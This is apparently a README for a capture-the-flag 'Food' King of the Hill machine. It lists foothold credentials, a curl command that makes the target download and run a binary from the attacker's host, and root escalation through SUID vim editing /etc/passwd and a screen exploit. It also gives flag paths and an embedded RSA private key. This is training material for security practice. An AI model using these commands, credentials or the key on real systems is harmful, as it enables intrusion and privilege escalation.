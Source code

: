 # Food KOTH machine

Foodhold options:

1. The following creds will get ssh access as `ramen`: `ramen:noodlesRTheBest`. These are gathered from the mysql DB exposed on 3306, which has the creds root:root and a single table called users in database users.
2. The website on port `:15065` will execute any request body posted to `/api/cmd`. This will get a foothold as the user `bread`.

  ```
  curl -d "wget $LHOST:1234/client -O /tmp/c && chmod +x /tmp/c && /tmp/c" $RHOST:15065/api/cmd
  ```
3. pasta's ssh key is below
4. port `46969` hosts telnet, `telnet <ip> 46969`. it gives the `food` user's creds encoded with rot14: `food:givemecookies`

Root options:

1. `/usr/bin/vim.basic` has the suid bit set. Use it to edit /etc/passwd, add a user line like `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` and su to root with `pass123`. vim.basic also has its gsuid bit set.
2. `/usr/bin/screen-4.5.0` has suid set, meaning that it can be used to write with root permissions. it overwrites so cant be used on passwd, but following (or just running) this will create a root shell: https://www.exploit-db.com/exploits/41154

Bread has write over `/etc/systemd/system/pings.service`, which runs their 15065 process. Not sure if this can be used to get root (since bread can't restart the service (though they do own it), or force the process to reload. Possibly replace main with a different binary? But it would still be run as 'bread'.

## Flags

- /root/flag
- /root/.profile
- /root/.mysql_history
- /home/bread/flag
- /home/food/.flag
- /home/tryhackme/flag7
- /var/flag.txt
- /var/log/auth.log

## Pasta's SSH key

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAuMq9/6Il5rB2QANbYbuYOdb+16f9tIc/85ZW7vvelkzNHADr
HxUKmwcY53C0VWaOzQTzy+xFVwiKuVG3L2z2LQ2W6rSWbw3XCAy9BWnCmXewGOGJ
J7O0tWZoptlD4EY/1/YHdw9f49MWss7yJWT3V/pfytUrKJPiIaVbsHyahhbV1JLc
VfAq1jxPW3+LMbmvP6unvi5X0B4xoGbm64eTWQXHKak1A1wyjYFZtFz98ialAp/+
lwla6MpgJrtgeY6jjRHhkUd/WT0ud1JH+N4Lbldn1Z3Swc6TyEaDrO7v5YLe9ac0
jo/bfhr60X25apItar3VqkWicINZIrJMWSpzJwIDAQABAoIBADdnSdnYAqcMpxeA
Kii+NuC4jgWYb19t4YWlwIC8cTr84c4QlG3oQBrE4Pma9+ZW7l+XqYStXQjAHd98
GYEVmSVe2q2Z4TSAoMTgFNgHonmiweBj1lxZ68crYhsMLuaSCVg1gn121ZgX1Mld
dIozoFj3Tzsf+GWdGQJfcoMSiL3EngQgpxnYGBw5c1AC7DmxFr8NZq2ZlopvlO3Y
bgPWKLtORA4Mksbml8dM1yHsSq8Qg/dCtfe6ldGliqpLQMGj49UWvhbfr63c4+de
a/M247ykFXsW0q9e/ACYlDPFr177PMDK/0KRnY0JTtUeowoqYangAbp1ZTHZpNpj
hGEXGOkCgYEA7TDAu8bl+wDdl6XSdWZIJW2v7iV5ksOPBIqRU8xDX05nnnTY4uqO
9OKPwQo2Qx1gmnZpDAmi+ubW2TVtO75nPqcd/mofycrsKCvaZoGGfKkqyIfdPLZx
8pUsqd1gT2PPK+R22x9tYurlXCJjP2wXEOznBdyxbLYoYzRaIv8weTsCgYEAx3I8
8jWYddhl+wklyuKNX/hqeNgWSZAsUq4vyXK5x4u7Vqd9g0lyJhMCMHBCa7rEDCPf
U6mFhPeGDmqrECxZ9xfRofZq+AwJHAXxcmoou7z7S1Ga1P8N1y7LQGgmcrBw2lkf
kViBaMNGJFOLgtR/QbKzXa3TlfRSZ5sIy0N+7wUCgYEAnqsrczIV7PhiRC0Agdqf
TrJ2q0fUcRJzHOWZXEZbl2j6tiySXhHs+fKJmeg77l+7nPizQwM7TL6ZYQp1fS7d
IDNpRCU4CKS/oAvd+Q6Sqdf8r9L7c77UsSOLkkJuSA2LrGAUBnealD5wmlbCr82e
DIt97BT7d67Pi7WcyqaNhbsCgYB9TzErnLDlmci5KM4t4pmgqpt6wYl/Pq4aZIZx
szs2PHy/vQwG6KZndZnyhRW2SenTFtbB4ciZ+kqn1C0WREdiD/0OHZynrCgtCy7g
DAL7sYjRkbwOBxHTGPtqxAUkGedNyKEk2M6127q+KB+HW6t4w6YePZCqro73uViV
HRsrYQKBgQCaCQD3EX7im9B+CL2XfTCs3fp/WgL6Xw0otiMKHqEuBM9upU4LYs4F
jXaj5A1iFJibD6YoGGBt3sc7Wl2cS4YJO24GtOQlsgK/W2+VQANwQaYZOJPwrR2c
19IyrUe3VZjDbJQpLO1TwBdKj/MpcQhhB+m6WXhVYWkixfTTM6VSyg==
-----END RSA PRIVATE KEY-----
```
